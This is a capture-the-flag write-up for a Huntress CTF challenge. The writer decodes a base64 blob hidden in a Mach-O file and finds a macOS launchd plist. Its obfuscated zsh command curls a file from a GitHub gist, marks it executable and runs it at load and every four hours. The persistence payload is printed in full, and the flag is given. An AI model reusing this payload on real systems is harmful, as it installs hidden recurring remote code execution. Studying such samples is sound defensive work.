

# ✅ MISCELLANEOUS - Welcome to the Park

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- easy

Files:

- [welcomeToThePark.zip](./welcomeToThePark.zip)

## Description

Author: @Stuart Ashenbrenner

The creator of Jurassic Park is in hiding... amongst Mach-O files, apparently. Can you find him?  Download the file(s) below.

## Writeup

```shell
$ unzip welcomeToThePark.zip
Archive:  welcomeToThePark.zip
   creating: welcome/
   creating: welcome/.hidden/
  inflating: welcome/.DS_Store
  inflating: __MACOSX/welcome/._.DS_Store
   creating: welcome/Chrome.app/
  inflating: __MACOSX/welcome/._Chrome.app
  inflating: welcome/.hidden/welcomeToThePark
```

I started unzipping the challenge and quickly noticed the `.hidden/welcomeToThePark` file so let's start there.



Right smack in the middle of the file we can see a base64 chunk so let's grab it and decode it with [this simple CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XML_Beautify('%5C%5Ct')&input=UEQ5NGJXd2dkbVZ5YzJsdmJqMGlNUzR3SWlCbGJtTnZaR2x1WnowaVZWUkdMVGdpUHo0OElVUlBRMVJaVUVVZ2NHeHBjM1FnVUZWQ1RFbERJQ0l0THk5QmNIQnNaUzh2UkZSRUlGQk1TVk5VSURFdU1DOHZSVTRpSUNKb2RIUndPaTh2ZDNkM0xtRndjR3hsTG1OdmJTOUVWRVJ6TDFCeWIzQmxjblI1VEdsemRDMHhMakF1WkhSa0lqNDhjR3hwYzNRZ2RtVnljMmx2YmowaU1TNHdJajQ4WkdsamRENDhhMlY1UGt4aFltVnNQQzlyWlhrK1BITjBjbWx1Wno1amIyMHVhSFZ1ZEhKbGMzTXVZM1JtUEM5emRISnBibWMrUEd0bGVUNVFjbTluY21GdFFYSm5kVzFsYm5SelBDOXJaWGsrUEdGeWNtRjVQanh6ZEhKcGJtYytMMkpwYmk5NmMyZzhMM04wY21sdVp6NDhjM1J5YVc1blBpMWpQQzl6ZEhKcGJtYytQSE4wY21sdVp6NUJNR0k5SjNSdGNEMGlKQ2h0Snp0Qk1HSkZVbWhsV2owbmEzUmxiWEFnTDNSdGNDOVlXQ2M3UVRCaVJWSm9aVnBZUFNkWVdGaFlXRmdwSWljN1FUQmlSVkk5SnpzZ1kzVnliQ0F0TFNjN1FUQmlSVDBuY21WMGNua2dOU0F0WmlBbk8wRXdZa1ZTYUQwbkltaDBkSEJ6T2k4dkp6dEJNR0pGVW1obFdsaEVVbWs5SjJkcGMzUXVaMmwwYUhVbk8zaGlSVkk5SjJJdVkyOXRMM01uTzJwMWRWRTlKM1IxWVhKMGFtRnpKenRxZFhWUlVUZHNOMWcxUFNkb0wyRTNaREU0Snp0cWRYVlJVVGRzTjFnMWVWZzlKemRqTkRSbU5ETXlOeWM3YW5WMVVWRTNiRGRZTlhrOUp6Y3pPV0kzTlRKa01ETTNZbVUwTldZd01TYzdhblYxVVZFM1BTY2lJQzF2SUNJa2UzUnRjSDBpT3lCcEp6dHFkWFZSVVRkc056MG5aaUJiV3lBdGN5QWlKSHQwYlhCOUp6dHFkWFZSVVRkc04xZzlKeUlnWFYwN0p6dHFkVkZSTjJ3M1dEVjVQU2NnZEdobGJpQmphRzBuTzJwMVVWRTNiRDBuYjJRZ056YzNJQ0lrZTNSdGNIMGlPeUFuTzNwU1R6TlBWWFJqV0hROUp5SWtlM1J0Y0gwaUp6dDZVazh6VDFWMFBTYzdJR1pwT3lCeWJTYzdlbEpQTTA5VmRHTllkR1ZDUFNjZ0lpUjdkRzF3ZlNJbk8yVmphRzhnTFdVZ0pIdEJNR0o5Skh0Qk1HSkZVbWhsV24wa2UwRXdZa1ZTYUdWYVdIMGtlMEV3WWtWU2ZTUjdRVEJpUlgwa2UwRXdZa1ZTYUgwa2UwRXdZa1ZTYUdWYVdFUlNhWDBrZTNoaVJWSjlKSHRxZFhWUmZTUjdhblYxVVZFM2JEZFlOWDBrZTJwMWRWRlJOMnczV0RWNVdIMGtlMnAxZFZGUk4ydzNXRFY1ZlNSN2FuVjFVVkUzZlNSN2FuVjFVVkUzYkRkOUpIdHFkWFZSVVRkc04xaDlKSHRxZFZGUk4ydzNXRFY1ZlNSN2FuVlJVVGRzZlNSN2VsSlBNMDlWZEdOWWRIMGtlM3BTVHpOUFZYUjlKSHQ2VWs4elQxVjBZMWgwWlVKOUlId2dMMkpwYmk5NmMyZzhMM04wY21sdVp6NDhMMkZ5Y21GNVBqeHJaWGsrVW5WdVFYUk1iMkZrUEM5clpYaytQSFJ5ZFdVZ0x6NDhhMlY1UGxOMFlYSjBTVzUwWlhKMllXdzhMMnRsZVQ0OGFXNTBaV2RsY2o0eE5EUXdNRHd2YVc1MFpXZGxjajQ4TDJScFkzUStQQzl3YkdsemREND0).

The base64 decodes to a macOS plist file containing a ZSH-compliant script to run when the plist is loaded and also to run every 14400 seconds (4 hours).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
    <dict>
        <key>Label</key>
        <string>com.huntress.ctf</string>
        <key>ProgramArguments</key>
        <array>
            <string>/bin/zsh</string>
            <string>-c</string>
            <string>A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh</string>
        </array>
        <key>RunAtLoad</key>
        <true />
        <key>StartInterval</key>
        <integer>14400</integer>
    </dict>
</plist>
```

Cleaning up the script formatting for legibility we can see a curl to a [GitHub gist](https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01):

```shell
A0b='tmp="$(m'
A0bERheZ='ktemp /tmp/XX'
A0bERheZX='XXXXXX)"'
A0bER='; curl --'
A0bE='retry 5 -f '
A0bERh='"https://'
A0bERheZXDRi='gist.githu'
xbER='b.com/s'
juuQ='tuartjas'
juuQQ7l7X5='h/a7d18'
juuQQ7l7X5yX='7c44f4327'
juuQQ7l7X5y='739b752d037be45f01'
juuQQ7='" -o "${tmp}"; i'
juuQQ7l7='f [[ -s "${tmp}'
juuQQ7l7X='" ]];'
juQQ7l7X5y=' then chm'
juQQ7l='od 777 "${tmp}"; '
zRO3OUtcXt='"${tmp}"'
zRO3OUt='; fi; rm'
zRO3OUtcXteB=' "${tmp}"'
echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh
```

Visiting `https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01` leads us to [a picture John Hammond](./JohnHammond.jpg) of Jurrasic Park fame.

Running strings on the image leads us to the flag.

```shell
$ curl -s 'https://gist.githubusercontent.com/stuartjash/a7d187c44f4327739b752d037be45f01/raw/4ea401db574d5cceb0ba517feb9f84971136f067/JohnHammond.jpg'|strings|tail -1
; flag{680b736565c76941a364775f06383466}
```

`flag{680b736565c76941a364775f06383466}`
